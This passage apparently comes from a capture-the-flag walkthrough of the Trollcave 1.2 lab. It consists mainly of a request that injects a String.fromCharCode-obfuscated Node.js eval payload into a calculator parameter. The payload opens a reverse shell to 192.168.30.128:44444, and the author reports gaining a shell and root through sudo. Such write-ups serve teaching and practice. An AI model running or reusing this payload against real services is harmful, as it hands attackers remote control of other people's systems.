 ```
http://localhost:9999/calc?sum=eval(String.fromCharCode(32,40,102,117,110,99,116,105,111,110,40,41,123,32,118,97,114,32,114,101,113,117,105,114,101,32,61,32,103,108,111,98,97,108,46,114,101,113,117,105,114,101,32,124,124,32,103,108,111,98,97,108,46,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,99,111,110,115,116,114,117,99,116,111,114,46,95,108,111,97,100,59,32,105,102,32,40,33,114,101,113,117,105,114,101,41,32,114,101,116,117,114,110,59,32,118,97,114,32,99,109,100,32,61,32,40,103,108,111,98,97,108,46,112,114,111,99,101,115,115,46,112,108,97,116,102,111,114,109,46,109,97,116,99,104,40,47,94,119,105,110,47,105,41,41,32,63,32,34,99,109,100,34,32,58,32,34,47,98,105,110,47,115,104,34,59,32,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,34,110,101,116,34,41,44,32,99,112,32,61,32,114,101,113,117,105,114,101,40,34,99,104,105,108,100,95,112,114,111,99,101,115,115,34,41,44,32,117,116,105,108,32,61,32,114,101,113,117,105,114,101,40,34,117,116,105,108,34,41,44,32,115,104,32,61,32,99,112,46,115,112,97,119,110,40,99,109,100,44,32,91,93,41,59,32,118,97,114,32,99,108,105,101,110,116,32,61,32,116,104,105,115,59,32,118,97,114,32,99,111,117,110,116,101,114,61,48,59,32,102,117,110,99,116,105,111,110,32,83,116,97,103,101,114,82,101,112,101,97,116,40,41,123,32,99,108,105,101,110,116,46,115,111,99,107,101,116,32,61,32,110,101,116,46,99,111,110,110,101,99,116,40,52,52,52,52,52,44,32,34,49,57,50,46,49,54,56,46,51,48,46,49,50,56,34,44,32,102,117,110,99,116,105,111,110,40,41,32,123,32,99,108,105,101,110,116,46,115,111,99,107,101,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,32,105,102,32,40,116,121,112,101,111,102,32,117,116,105,108,46,112,117,109,112,32,61,61,61,32,34,117,110,100,101,102,105,110,101,100,34,41,32,123,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,46,115,111,99,107,101,116,41,59,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,46,115,111,99,107,101,116,41,59,32,125,32,101,108,115,101,32,123,32,117,116,105,108,46,112,117,109,112,40,115,104,46,115,116,100,111,117,116,44,32,99,108,105,101,110,116,46,115,111,99,107,101,116,41,59,32,117,116,105,108,46,112,117,109,112,40,115,104,46,115,116,100,101,114,114,44,32,99,108,105,101,110,116,46,115,111,99,107,101,116,41,59,32,125,32,125,41,59,32,115,111,99,107,101,116,46,111,110,40,34,101,114,114,111,114,34,44,32,102,117,110,99,116,105,111,110,40,101,114,114,111,114,41,32,123,32,99,111,117,110,116,101,114,43,43,59,32,105,102,40,99,111,117,110,116,101,114,60,61,32,49,48,41,123,32,115,101,116,84,105,109,101,111,117,116,40,102,117,110,99,116,105,111,110,40,41,32,123,32,83,116,97,103,101,114,82,101,112,101,97,116,40,41,59,125,44,32,53,42,49,48,48,48,41,59,32,125,32,101,108,115,101,32,112,114,111,99,101,115,115,46,101,120,105,116,40,41,59,32,125,41,59,32,125,32,83,116,97,103,101,114,82,101,112,101,97,116,40,41,59,32,125,41,40,41,59,49,43,49,59,10))`
```

A shell returns on my `netcat` listener and I can `sudo` as `root`.

![screenshot-23](/assets/images/posts/trollcave-1.2-walkthrough/screenshot-23.png)

:dancer:
